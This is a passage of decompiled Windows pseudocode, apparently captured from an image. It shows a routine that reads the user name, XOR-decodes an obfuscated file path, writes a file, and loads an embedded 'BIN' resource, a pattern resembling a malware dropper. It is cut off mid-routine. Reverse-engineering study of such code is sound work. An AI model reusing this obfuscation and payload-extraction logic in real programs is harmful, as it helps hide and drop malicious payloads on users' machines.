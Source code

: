     FILE *Stream; // [rsp+20h] [rbp-E0h] BYREF
    DWORD Stream_8; // [rsp+28h] [rbp-D8h] BYREF
    char Format[16]; // [rsp+30h] [rbp-D0h] BYREF
    int v19; // [rsp+40h] [rbp-C0h]
    int v20; // [rsp+44h] [rbp-BCh]
    int v21; // [rsp+48h] [rbp-B8h]
    int v22; // [rsp+4Ch] [rbp-B4h]
    int v23; // [rsp+50h] [rbp-B0h]
    int v24; // [rsp+54h] [rbp-ACh]
    CHAR Buffer[256]; // [rsp+60h] [rbp-A0h] BYREF

    *(_DWORD *)Format = 0x5A8D39D3;
    *(_DWORD *)&Format[4] = 0x9D5DB16E;
    *(_DWORD *)&Format[8] = 0x65FC17D7;
    *(_DWORD *)&Format[12] = 0xB97C17DA;
    v19 = 0x4B8F2CC8;
    v20 = 0x3598DA68;
    v21 = 0xF882F503;
    v22 = 0x8CC789FB;
    v23 = 0x9D8E9FA3;
    v24 = 0xD04829;
    Stream_8 = 0x100;
    LODWORD(ResourceW) = GetUserNameA(Buffer, &Stream_8);
    if ( (_DWORD)ResourceW )
    {
        v1 = 0;
        v2 = 0i64;
        do
        {
        v3 = (__m128)_mm_loadu_si128((const __m128i *)&Format[v2]);
        v1 += 32;
        v4 = (__m128)_mm_loadu_si128((const __m128i *)&byte_7FF729AB34C0[v2]);
        v5 = v1;
        v2 += 32i64;
        *(__int128 *)((char *)&v15 + v2) = (__int128)_mm_xor_ps(v4, v3);
        *(__m128 *)((char *)&Stream + v2) = _mm_xor_ps(
                                                (__m128)_mm_loadu_si128((const __m128i *)&cp[v2]),
                                                (__m128)_mm_loadu_si128((const __m128i *)((char *)&Stream + v2)));
        }
        while ( (unsigned __int64)v1 < 0x20 );
        if ( (unsigned __int64)v1 < 0x28 )
        {
        do
        {
            ++v1;
            Format[v5] ^= byte_7FF729AB34C0[v5];
            ++v5;
        }
        while ( (unsigned int)v1 < 0x28 );
        }
        write_file(FileName, 0x104ui64, Format);
        ModuleHandleW = GetModuleHandleW(0i64);
        ResourceW = FindResourceW(ModuleHandleW, (LPCWSTR)0x65, L"BIN");
        v7 = ResourceW;
        if ( ResourceW )
        {
        LODWORD(ResourceW) = SizeofResource(ModuleHandleW, ResourceW);
        v8 = (unsigned int)ResourceW;
        if ( (_DWORD)ResourceW )
        {
            ResourceW = (HRSRC)LoadResource(ModuleHandleW, v7);
            if ( ResourceW )
            {
            ResourceW = (HRSRC)LockResource(ResourceW);